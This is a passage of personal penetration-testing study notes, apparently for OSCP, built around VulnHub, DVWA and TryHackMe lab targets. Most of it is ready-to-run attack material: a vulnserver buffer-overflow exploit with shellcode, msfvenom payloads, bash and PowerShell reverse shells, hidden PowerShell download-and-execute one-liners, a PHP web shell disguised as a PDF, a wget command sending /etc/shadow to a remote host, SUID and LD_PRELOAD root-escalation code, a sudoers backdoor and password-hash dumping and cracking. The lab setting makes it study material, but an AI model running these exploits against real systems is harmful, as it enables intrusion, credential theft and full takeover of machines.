        s.send('TRUN /.:/' + shellcode)
    except:
        print("check debugger")
    finally:
        s.close()

b in front of the String ensures that byte is send

Back to Immunity Debugger we need to find the JMP ESP.

    Click the Black Arrow with 4 dots and enter the address
    625011af

That should bring the FFE4 - JMP ESP. It is needed to test that.
Select the live press F2 to create a Breakpoint in Immunity Debugger.

*!In order to work properly the module has to be executed in python2.7 ad probably on console*

Python3 causes random signs to show up in the EIP (C2) that will destroy the return value.

    EIP 625011AF essfunc.625011AF 

should be inside the Debug registers

**Generate Shellcode & Gaining Root**

*generate the shellcode*

In kali use msfvenom to generate shellcode

for Windows:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.6 LPORT=4444 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00"

for Linux:

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.6 LPORT=4444 EXITFUNC=thread -b "\x00" -f c 

    EXITFUNC - for stability#
    -f c - generate c shellcode
    -a x86 - for architecture
    -b - bad characters (add as collected in former section) here only NULL byte is bad
    -> "\x00" is always a bad character

Maybe the payload is to big that has to be checked here.

*Write the exploit*

With that shellcode the exploit has to be written

    #!/user/bin/python
    import socket

    vulnserverHost = "192.168.178.60"
    vulnserverDefaultPort = 9999

    exploit = (
        b"\xba\x72\xc2\xd0\x94\xd9\xc8\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1"
        b"\x52\x31\x57\x12\x03\x57\x12\x83\x9d\x3e\x32\x61\x9d\x57\x31"
        b"\x8a\x5d\xa8\x56\x02\xb8\x99\x56\x70\xc9\x8a\x66\xf2\x9f\x26"
        b"\x0c\x56\x0b\xbc\x60\x7f\x3c\x75\xce\x59\x73\x86\x63\x99\x12"
        b"\x04\x7e\xce\xf4\x35\xb1\x03\xf5\x72\xac\xee\xa7\x2b\xba\x5d"
        b"\x57\x5f\xf6\x5d\xdc\x13\x16\xe6\x01\xe3\x19\xc7\x94\x7f\x40"
        b"\xc7\x17\x53\xf8\x4e\x0f\xb0\xc5\x19\xa4\x02\xb1\x9b\x6c\x5b"
        b"\x3a\x37\x51\x53\xc9\x49\x96\x54\x32\x3c\xee\xa6\xcf\x47\x35"
        b"\xd4\x0b\xcd\xad\x7e\xdf\x75\x09\x7e\x0c\xe3\xda\x8c\xf9\x67"
        b"\x84\x90\xfc\xa4\xbf\xad\x75\x4b\x6f\x24\xcd\x68\xab\x6c\x95"
        b"\x11\xea\xc8\x78\x2d\xec\xb2\x25\x8b\x67\x5e\x31\xa6\x2a\x37"
        b"\xf6\x8b\xd4\xc7\x90\x9c\xa7\xf5\x3f\x37\x2f\xb6\xc8\x91\xa8"
        b"\xb9\xe2\x66\x26\x44\x0d\x97\x6f\x83\x59\xc7\x07\x22\xe2\x8c"
        b"\xd7\xcb\x37\x02\x87\x63\xe8\xe3\x77\xc4\x58\x8c\x9d\xcb\x87"
        b"\xac\x9e\x01\xa0\x47\x65\xc2\xc5\x97\x67\x14\xb2\x95\x67\x09"
        b"\x1e\x13\x81\x43\x8e\x75\x1a\xfc\x37\xdc\xd0\x9d\xb8\xca\x9d"
        b"\x9e\x33\xf9\x62\x50\xb4\x74\x70\x05\x34\xc3\x2a\x80\x4b\xf9"
        b"\x42\x4e\xd9\x66\x92\x19\xc2\x30\xc5\x4e\x34\x49\x83\x62\x6f"
        b"\xe3\xb1\x7e\xe9\xcc\x71\xa5\xca\xd3\x78\x28\x76\xf0\x6a\xf4"
        b"\x77\xbc\xde\xa8\x21\x6a\x88\x0e\x98\xdc\x62\xd9\x77\xb7\xe2"
        b"\x9c\xbb\x08\x74\xa1\x91\xfe\x98\x10\x4c\x47\xa7\x9d\x18\x4f"
        b"\xd0\xc3\xb8\xb0\x0b\x40\xd8\x52\x99\xbd\x71\xcb\x48\x7c\x1c"
        b"\xec\xa7\x43\x19\x6f\x4d\x3c\xde\x6f\x24\x39\x9a\x37\xd5\x33"
        b"\xb3\xdd\xd9\xe0\xb4\xf7")

    shellcode = b("A" * 2003) + b"\xaf\x11\x50\x62" + b"\x90" * 32 + exploit

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect((vulnserverHost, vulnserverDefaultPort))
        s.send('TRUN /.:/' + shellcode)
    except:
        print("check debugger")
    finally:
        s.close()

 
Add \x90*32 (for no operation = NOP) as padding so return won't interfer with the exploit code.
The CPU will just forward over NOP in the Stack until it finds the next suitable instruction

*Execute*

Setup a Netcat listening port.

    nc -nvlp 4444

then run the exploit and trigger the reverse shell

    whoami can find out well who is connected

**Compiling an Exploit**

google the exploit Samba 2.2.2a (was the result of first attack vector with metasploit)
https://www.exploit-db.com/exploits/10
Download the exploit

    gcc 10.c -o trans2open
    ./trans2open -b 0 10.0.2.5

Should give you root access

*Generate basic payload*

    msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f exe -o shell.exe

List of Payloads to generate

https://netsec.ws/?p=331 

**Bruteforce attacks**

*Hydra for SSH*

Sample to attack Kioptrix

    locate wordlists

    hydra -v -l root -P /usr/share/wordlists/rockyou.txt <ip> ssh

    -v - verbose mode
    -P - Passwordlist

**XSS and MySQL FILE**

https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/ 
Only ISO for 64 bit
Debian 64 and Live image

*XSS*

    

create index.php and put it in the home directory of the user you will run it with

    <?php
        $cookie = isset($_GET["test"])?$_GET['test']:"";
    ?>

install it in a apache server run php 

    service apache2 stop
    php -S 10.0.2.6:80

in the vulnerable field enter

    

*SQL injection*

https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/ 

*SQLMap*

Look for anything that looks like it trigger a sql query. Admin page requests posts with "id=1" in the URI. That is a good indicator that sql injection is possible here.

For testing

    sqlmap -u "http://10.0.2.7/admin/edit.php?id=1" --cookie=PHPSESSID=<id>

For dumping

    sqlmap -u "http://10.0.2.7/admin/edit.php?id=1" --cookie=PHPSESSID=<id> --dump

For getting a shell

    sqlmap -u "http://10.0.2.7/admin/edit.php?id=1" --cookie=PHPSESSID=<id> --os-shell

**Local File Inclusion (LFI)**

https://www.vulnhub.com/entry/pentester-lab-php-include-and-post-exploitation,79/ 

Nikto

    nikto -h 10.0.2.8

 Directory Traversal

    ../../../../../../../../../../etc/passwd

doesn't work
Adding a null byte does the trick until php 5.3

    ../../../../../../../../../../etc/passwd%00

Inject a file -> Submit allows to upload a pdf. Create a file that has a pdf header but contains php otherwise.

*shell.pdf*

    %PDF-1.4

    <?php
        system($_GET["cmd"]);
    ?>

that goes to upload page and can trigger a command

http://10.0.2.8/index.php?page=uploads/shell.pdf%00&cmd=whoami

Shellcode to create a reverse shell

    https://github.com/GammaG/php-reverse-shell

Get the php file and change the ip and port where the shell should connect to.

    nc -nvlp 4444

In Browser:

http://10.0.2.8/index.php?page=uploads/reverseshell.pdf%00

*Privilage Escalation*

find a folder with full rights -> tmp

**Remote File Inclusion (RFI)**

Host a file yourself and let the victim download it

*Damn Vulnerable Web Application (DVWA)*

http://www.dvwa.co.uk/

*Generate Reverse shell msfvenom*

    msfvenom -p php/meterpreter/revese_tcp LHOST=<host ip> LPORT=4444 >> exploit.php

host the file with python server

    service apache2 stop
    python -m SimpleHTTPServer 80

python give you debug information

*Setup meterpreter*

alternative to nc - only once allowed in OSCP better use nc

    sudo msfconsole -q -x "use exploit/multi/handler;\
    set payload php/meterpreter/reverse_tcp;\ 
    set LHOST 192.168.134.129;\
    set LPORT 4444 ;\
    run"

    -q - start quietly
    -x - passing payload settings

on DVWA the page is called via parameter "?page=" enter here the malicious page as goal

    dvwa.com/vulnerabilites/fi/?page=http://10.0.2.6/exploit.php

**File Transfer**

*Put with nmap*

    nmap -p 80 10.0.2.11 --script http-put --script-args http-put.url='<target path>',http-put.file='<local path>'

*Get with SCP*

    scp <user>@<ip>:<filename> <target>

*ftp hosting with python*

    apt-get install python-pyftpdlib
    go to the folder you want to use
    python -m pyftpdlib -p 21
    p for port

*get files over windows shell*

    ftp <ip>
    binary - so the files are having the correct chars

*script it*

    echo open <ip> ftp.txt
    echo anonymous >> ftp.txt
    echo pass >> ftp.txt
    echo get exploit.php >> ftp.txt
    echo bye >> gtp.txt

    ftp -s:ftp.txt

There should not be spaces in there

*host with msfconsole*

    use auxiliary/server/ftp
    exploit

For old windows machines

*TFTP*

    On Linux
    atftpd --daemon --port 69 /var/www/html

    On Windows
    tftp -i <ip> get exploit.php

*Powershell*

    echo $storage = $pwd > get.ps1
    echo $webclient = New-Object System.Net.Webclient >> get.ps1
    echo $url = "http://<ip>/exploit.php" >> get.ps1
    echo $file = "exploit.php" >> get.ps1
    echo $webclient.DownloadFile($url,$file) >> get.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File get.ps1

    Also works as oneliner 
    echo $storage = $pwd&$webclient = New-Object System.Net.Webclient&$url = "http://<ip>/exploit.php"&$file = "exploit.php"&$webclient.DownloadFile($url,$file) >> get.ps1

*Powershell One-Liner*

    powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('<url>',"$env:APPDATA\ps.exe");Start-Process ("$env:APPDATA\ps.exe")

    ## Version1
    c:\Windows\System32\cmd.exe /c powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('<url>')"

    ## Version2
    c:\windows\system32\cmd.exe /c PowErsHelL.EXE -eXecUtiONPoLICy bYPass -NOPROfilE -WinDoWSTYlE hiDden -EnCodeDcOmmAnd <base64 Command>

**Privilege Escalation**

Guides for privilege Escalation

Basic Pentesting 1 OVA

https://www.vulnhub.com/entry/basic-pentesting-1,216/ 

*Guides*

**Windows**

https://www.fuzzysecurity.com/tutorials/16.html 

*Windows-PrivEsc-Checklist*

https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

*Analysis Tools*

Executable

- winPEAS.exe https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS 

Deployment with Visual Studio Required

- Seatbelt.exe https://github.com/GhostPack/Seatbelt 
- Watson.exe https://github.com/rasta-mouse/Watson
- SharpUp.exe https://github.com/GhostPack/SharpUp

PowerShell

- Sherlock.ps1 https://github.com/rasta-mouse/Sherlock 
- PowerUp.ps1 https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc 
- jaws-enum.ps1 https://github.com/411Hall/JAWS

Other

- windows-exploit-suggester.py https://github.com/AonCyberLabs/Windows-Exploit-Suggester

    python2 -m pip install xlrd --upgrade
    python2 windows-exploit-suggester.py --update --gives the database for vulnerabilities
    C:\>systeminfo > win7sp1-systeminfo.txt
    python2 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 

- exploit suggester (metasploit) https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/ 

**Linux**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 

*Admin Shell upload - Wordpress*

Will create a reverse shell with a php shell and cleanup on its own. Need Wordpress admin access.

    use exploit/unix/webapp/wp_admin_shell_upload
    
*Find the Kernel version*

    uname -a -> on the local maschine

*Linuxprivchecker*

https://github.com/GammaG/linuxprivchecker

Then put in it apache directory. On the target machine make a file transfer to pull this.
This is the python version, but there are alternative versions.

    Copy the kernel as first thing and check if there is any exploits available.
    Check World Writeable Files (maybe passwd is in there)

End the Channel und go back to Meterpreter

    edit /etc/passwd
    (works as vi)

Open another terminal to generate the pw hash

    openssl passwd --help
    openssl passwd -1 (gives you an md5 hash)

Go back to meterpreter

    paste the hash instead of the "x" for root
    shell 
    python -c 'import pty; pty.spawn("/bin/bash")'
    su root

**Windows Enumeration**

*Check vulnerable services*

List all the running services on the maschine that are automatically started and non standard.

    wmic service get name,displayname,pathname,startmode |findstr /i "auto"|findstr /i /v "c:\windows" |findstr /i /v "\""
    wmic - gives a list of all running services
    /i - makes the search case insensitive
    /v ignores anything that contains the given String

Possible finding  C:\Program Files\... --> can be used by putting a file with name Files.exe under C:\Program

*check dir permissions*

    icacls "path"
    
*check for local admin*

    net localgroup administrators

*check user permissions*

    whoami /priv

*Generate Payload*

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<url> LPORT=<port> -e x86/shikata_ga_nai -i 7 -f raw > shell.bin
    -i - means the iterations shikata ga nai will execute on the payload

Inject the payload in a trustworthy exe like whoami.exe with the help of shellter

*Msfconsole meterpreter*

    msfconsole -q -x "use exploit/multi/handler;\
    set PAYLOAD windows/meterpreter/reverse_tcp;\
    set AutoRunScript post/windows/manage/migrate;\
    set LHOST <ip>;\
    set LPORT <port>;\
    run"

This will start a session handler and wait for incomming reverse shell requests. Then directly automigrate the process to a new process. 

*Set password for windows account*

    net user <accountname> <password>

**Linux Enumeration**

*ARP*

Show ARP Communication

    old: 
        arp -a
    new:
        ip neigh

Search for Passwords in  the whole system

    grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null
    locate password | more

*Search for Subdomains*

Get the list from here
https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-5000.txt 

    wfuzz -c -f sub-fighter -w top5000.txt -u '<url>' -H "HOST: FUZZ.<url>" --hw 290

    --hw 290 to take out 404 pages

**Post Exploitation**

*Linux Post Exploitation*

https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List 

    /bin/netstat -ano - to get open connections, maybe to get access to different networks

Search for flags as well

*Windows Post Exploitation*

    pwdump7

https://www.tarasco.org/security/pwdump_7/ 

    locate in Kali and transfer these files
    fgdump
    wce

*Unshadow*

Try to decrypt passwd and shadow file

    unshadow PASSWORD-FILE SHADOW-FILE

remove everything expect the users 

*Hashcat*

Identifiy the Algorithmus used for account creation
https://hashcat.net/wiki/doku.php?id=example_hashes

    hashcat64.exe -m Algorithm_Type_number cred.txt rockyou.txt -O
    for example (1800)

*GTFOBins*

Show what a user is allowed to execute as sudo without giving a password

    sudo -l

Exploit what is possible with that - search for GTFOBins 
https://gtfobins.github.io/ 
Use to escalate

*wget - Push /etc/shadow to remote location*

    sudo wget --post-file=/etc/shadow <IP>:<PORT>

Receive the file in NetCat

    nc -nvlp <PORT>

*LD_PRELOAD*

if sudo -l gives you back and you have at least one entry that allows sudo without pw

    env_keep+=LD_PRELOAD

create a file - shell.c - with the following content to escalate

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init(){
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }

compile it with

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

start it with

    sudo LD_PRELOAD=/home/USER/shell.so <something that can be executed as sudo e.g. apache2>

*FTP push file*

    ftp-upload -h {HOST} -u {USERNAME} --password {PASSWORD} -d {SERVER_DIRECTORY} {FILE_TO_UPLOAD}

*Capabilities*
Get a list of programs that are allowed to be executed as root by the current user.
Only works if +ep is present. 

    getcap -r / 2>/dev/null

Result should be something like this:

    /usr/bin/python = cap_setuid+ed

Get root with python

    python -c 'import os; os.setuid(0); os.system("/bin/bash")'

*Create Root Bash*

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'
    For execution:
    /tmp/bash -p

*Use tar when wildcard is in use*

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > target_path/shell.sh
    chmod +x shell.sh
    touch /home/andre/backup/--checkpoint=1
    touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh

When bash shows up

    /tmp/bash -p

*NFS Mounting*

it's based on root squash 

    cat /etc/exports

only works if something shows here with "no_root_squash"

    showmount -e <ip>
    mkdir /tmp/mountme
    mount -o rw,vers=2 <target_ip>:/<mountable_folder> /tmp/mountme

move over something like shell.c and gcc it + chmod +s it

*TTY*

If sudo -l shows tty is missing try to get a shell by using this:
https://netsec.ws/?p=337 

!exchange sh for bash

    python -c 'import pty; pty.spawn("/bin/bash")'
    echo os.system('/bin/bash')

*Upgrade TTY further*

Enables autocomplete in reverse shell and so on

Close the connection Strg + z

    stty raw -echo
    fg + enter (twice)

Back in the shell

    export TERM=xterm

*Monitor Process unprivileged*

    https://github.com/DominicBreuker/pspy 

**Windows Post Exploitation**

*Powershell Reverse Shell*

    $client = New-Object System.Net.Sockets.TCPClient("10.9.96.27",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3 

**Windows PW Cracking**

*Crack Password Hash*

    john --wordlist=/root/rockyou.txt <dumpfile>
    john --show <dumpfile>

*Online Hashcracker*

Needs NTLM cracking for windows passwords.

https://hashkiller.io/listmanager 
https://hashes.com/decrypt/basic 
https://crackstation.net/ 

*Export User Passwords*

    reg SAVE HKLM\SAM C:\SAM
    reg SAVE HKLM\SYSTEM C:\SYSTEM

**Linux PW Cracking**

Unshadow

    unshadow passwd shadow > unshadow.txt

Cracking with John

    john --rules --wordlist=/root/rockyou.txt unshadow
    (will take forever)

Alternative:

    hashcat -m 500 /root/rockyou.txt unshadow

Good to export that to a different machine with a strong GPU (Tower)

https://hashcat.net/hashcat/ 
https://resources.infosecinstitute.com/hashcat-tutorial-beginners/ 

**Pivoting**

Tunneling into a different network via another machine.

*Setup a lab*

Go in virtual network editor

    Kali
        One Host-Only network with:
        Subnet IP   10.1.10.0
        Mask        255.255.255.255

    Windows in the middle    

    Victim
        One Nat Network with:
        Subnet IP   192.168.134.0
        Mask        255.255.255.0

*Metasploit*

    run autoroute -s 192.168.134.0/24
    run autoroute -p 

**CTF Notes**

*Reverse Shells*

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 

    bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 

*Docker*

https://gtfobins.github.io/gtfobins/docker/ 

    docker run -v /:/mnt --rm -it bash chroot /mnt sh

bash maybe has to be changed into what is running

*SUID*

Get files that have the SUID Bit set 

First one is more clean

    find / -perm -u=s -type f 2>/dev/null

    find / -type f -perm -04000 -ls 2>/dev/null

good entry point is systemctl

https://gtfobins.github.io/

Search for systemcrl - SUID
paste the lines each single

    env - is a good point here 

*Escalate SUID Manually*

install strace for analysing what is called by an application

    strace patchToApplication 2>&1 | grep -i -E "open|access|no such file"

Search for something that you as user have writing permissions

Replace it with C script

    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));

    void inject() {
        system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }

Compile with

    gcc -shared -fPIC -o /pathToDeployTo /PathOfTheSourceFile

*Escalate with PATH manipulation*

Create an alternative "service" file to execute.
This will only with in combination with SUID.

    echo 'int main() { setgit(0); setuid(0); system("bin/bash"); return 0;}' > /tmp/service.c
    gcc /tmp/service.c -o /tmp/service
    export PATH=/tmp:$PATH

*Reverse Shell one liner*

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 

Make files downloadable

    sudo service apache2 start
    cp file /var/www/html
    id - gives you current rights 

*Priviledge Check*

https://github.com/GammaG/linuxprivchecker

*Create Reverse Shell*

https://netsec.ws/?p=331

**Set up Meterpreter session**

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit

*Generate the payload*

    msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip> LPORT=4444 EXITFUNC=thread -f raw > shell.php

https://github.com/pentestmonkey/php-reverse-shell 

*Meterpreter Session*

    ./msfconsole -q
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set lhost 192.168.1.123
    lhost => 192.168.1.123
    msf exploit(handler) > set lport 4444
    lport => 4444
    msf exploit(handler) > run

    shell - to get normal shell

*Get file version (Depackage)*

    dpkg -l | grep <file>

*Read exploits from searchsploit*

    /usr/share/exploitdb/exploits/linux/local/...

*add local user to sudoers*

    echo 'chmod 777 /etc/sudoers && echo "<user> ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
    chmod 777 on the file

*push cron jobs*

    run-parts /etc/cron.daily

*Call URL via console*

    curl <url>

*Show open ports in kali*

    sudo netstat -tulpn

*Malicious Plugin*

    sudo apt install seclists

*Wordpress exploitation*

Once seclists are installed it can be found in /usr/share/seclists and the plugin can be found under Web-Shells/WordPress.
The malicious plugin is called "plugin-shell.php"

*Connect to MySQL DB in Kali*

    mysql --host=<ip> --port=<port> --user= <user> -p 
    ip - would be 127.0.0.1 in case of port forwarding
    port - the port where the portforward is running at

RDP

xfreerdp is preinstalled

    xfreerdp /d:<domain> /u:<user> /v:<target_ip> +clipboard

*Crack PGP/GPG private key*

https://www.openwall.com/lists/john-users/2015/11/17/1

    gpg2john target/tryhackme.asc > target/hash
    john --wordlist=modules/rockyou.txt output

    gpg --allow-secret-key-import --import tryhackme.asc
    gpg --delete-secret-keys "tryhackme"

*Writing space*

Space can be written as

    ${IFS}

so ls -la would be

    ls${IFS}-la

Execute Bash/Sh script

alternative to

     ./<script> 

you can also write 

  bash <script>

**Additional**

Good for notes is Cherrytree.
https://www.giuspen.com/cherrytree/#downl 

https://www.reddit.com/r/oscp/ 

**Mount shared Folder**

    #!/bin/bash
    sudo mount -t vboxsf share/~share

